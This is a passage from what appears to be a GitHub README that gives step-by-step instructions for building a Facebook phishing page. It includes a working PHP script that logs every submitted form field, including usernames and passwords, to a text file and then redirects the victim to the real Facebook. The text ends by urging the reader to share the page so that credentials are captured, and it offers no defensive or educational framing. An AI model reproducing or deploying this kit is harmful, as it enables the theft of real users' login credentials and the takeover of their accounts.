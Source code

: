 # fbPshingphp
passwords, credit card numbers or any other information.

Steps to Create Facebook Phishing Page:

Open facebook login page in your browser.
Press ctrl+U to find source code.
Copy whole source code and create a PHP file (index.php) and paste it.
Now, search for string methode="POST", it will give you two results first for login and second for register.
Next, replace the action file name as “xyz.php” in the login form.
Now create a file “xyz.php” and “log.txt” and paste below code in “xyz.php”.
File name: xyz.php

filter_none
brightness_4
<?php 
  
// Set the location to redirect the page 
header ('Location: http://www.facebook.com'); 
  
// Open the text file in writing mode  
$file = fopen("log.txt", "a"); 
  
foreach($_POST as $variable => $value) { 
    fwrite($file, $variable); 
    fwrite($file, "="); 
    fwrite($file, $value); 
    fwrite($file, "\r\n"); 
} 
  
fwrite($file, "\r\n"); 
fclose($file); 
exit; 
?> 
Now you are done, share the page and if anyone will enter username and password then it will save into log.txt file.
